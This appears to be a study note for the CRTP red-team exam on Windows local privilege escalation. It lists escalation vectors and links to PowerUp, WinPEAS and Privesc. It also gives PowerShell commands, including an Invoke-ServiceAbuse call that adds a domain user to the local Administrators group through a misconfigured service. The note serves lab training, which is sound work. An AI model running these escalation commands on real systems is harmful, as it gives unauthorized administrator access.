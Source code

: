 # Local Privilege Escalation

{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

## Vectors

#### There are various ways of locally escalating privileges on Windows box:

* Missing patches – Automated deployment and AutoLogon passwords in clear text
* AlwaysInstallElevated (Any user can run MSI as SYSTEM)
* Misconfigured Services – DLL Hijacking and more
* NTLM Relaying a.k.a. Won't Fix

This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

```powershell
# Get services with unquoted paths and spaces
Get-UnquotedService -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
```

Add domain user to the local Administrators group

```powershell
# Get help commands
help Invoke-ServiceAbuse -Examples
# Practical use
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
# Verify if the above command worked or not with
net localgroup administrators
# Logoff and login again to affect changes
```
{% endtab %}

{% tab title="PowerShell" %}
Get all the service path names from where the service is executing.

```powershell
Get-WmiObject -Class win32_service | select pathname
```

Get ACLs of running service

```powershell
sc.exe sdshow <servicename>
```
{% endtab %}
{% endtabs %}
